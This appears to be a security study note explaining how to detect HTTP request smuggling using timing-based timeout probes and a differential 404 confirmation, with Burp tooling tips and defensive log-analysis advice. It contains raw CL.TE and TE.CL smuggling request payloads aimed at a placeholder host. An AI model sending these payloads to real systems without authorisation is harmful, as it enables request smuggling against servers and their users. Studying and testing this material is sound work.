

# 26.11 — Detecting Smuggling (Timing & Differential Responses)

## What is it?
Detecting HTTP Request Smuggling is notoriously difficult because you cannot see the Back-End server's direct response. You only see what the Front-End forwards back to you. Furthermore, if you blindly send payloads on a live production server, you risk accidentally poisoning the connection of a real customer.

Therefore, detection relies heavily on two safe, non-destructive methodologies:
1. **Timing Analysis (Timeouts):** Sending payloads designed to make the Back-End server "hang" while waiting for data that will never arrive.
2. **Differential Responses:** Sending payloads that trick the Back-End into reflecting a slightly different response structure without poisoning the queue.

Think of it like trying to figure out the layout of a dark cave by throwing a rock. If you don't hear the rock hit the ground for 10 seconds (Timing), you know the cave is very deep. If the echo sounds metallic instead of stony (Differential), you know there is a different structure inside.

## ASCII Diagram


## How to Find It (Methodology)

### 1. Timing Analysis (The Safest Approach)
Timing payloads are designed to cause a timeout on the Back-End *without* leaving malicious data in the TCP socket for the next user.

- **Detecting CL.TE:**
  *Goal: Make the Back-End (TE) wait for the next chunk.*
  ```http
  POST / HTTP/1.1
  Host: vulnerable.com
  Transfer-Encoding: chunked
  Content-Length: 4
  
  1
  A
  X
  ```
  *(Front-End reads `1\r\nA\r\n` and stops. Back-End reads chunk size `1`, reads `A`, then waits for the next chunk size... forever).*

- **Detecting TE.CL:**
  *Goal: Make the Back-End (CL) wait for more content bytes.*
  ```http
  POST / HTTP/1.1
  Host: vulnerable.com
  Transfer-Encoding: chunked
  Content-Length: 6
  
  0
  
  X
  ```
  *(Front-End reads the `0` chunk and stops. Back-End expects 6 bytes, but only gets `0\r\n\r\n` (5 bytes). It waits for the 6th byte forever).*

### 2. Differential Responses (Confirming the Exploit)
Once a timing delay suggests a vulnerability, you must confirm it by forcing the Back-End to process your smuggled prefix and return a different response, *without* waiting for another user.

- **The 404 Confirmation Payload (CL.TE):**
  Instead of smuggling a request and waiting for a victim, you send *two requests in rapid succession over the same connection*.
  
  **Request 1 (The Smuggle):**
  ```http
  POST /search HTTP/1.1
  Host: vulnerable.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 49
  Transfer-Encoding: chunked
  
  0
  
  GET /does_not_exist HTTP/1.1
  X-Ignore: X
  ```
  
  **Request 2 (The Normal Follow-up):**
  ```http
  POST /search HTTP/1.1
  Host: vulnerable.com
  ...
  ```
  *(Because you sent Request 2 immediately after Request 1 over the same keep-alive connection, the Back-End appends Request 2 to the smuggled `GET /does_not_exist`. The Back-End replies to Request 2 with a `404 Not Found` instead of the expected 200 OK. You have safely confirmed the vulnerability!)*

## Tooling
- **Burp Suite "HTTP Request Smuggler":** 
  - Use `Smuggle Probe` for Timing Analysis. It automatically tests dozens of obfuscations and measures the response times.
  - If a timing delay is found, use the `Turbo Intruder` extension (often integrated with the Smuggler extension) to send the "Request 1 + Request 2" Differential Response payloads to confirm the vulnerability without hurting real users.

## Developer & Defensive Considerations
- **False Positives in Timing:** Network latency, WAF rate-limiting, and heavy backend database queries can all cause 10-second delays. A timing delay is an *indicator*, not definitive proof. You must always follow up with a Differential Response test.
- **Log Analysis:** Defenders can detect timing probes by looking at proxy logs. Look for requests that take exactly `10000ms`, `30000ms`, or `60000ms` to complete (standard proxy timeout thresholds), coupled with unusually short `Content-Length` headers or malformed `Transfer-Encoding` headers.

## Related Notes
- [[02 - CL.TE Smuggling]]
- [[03 - TE.CL Smuggling]]
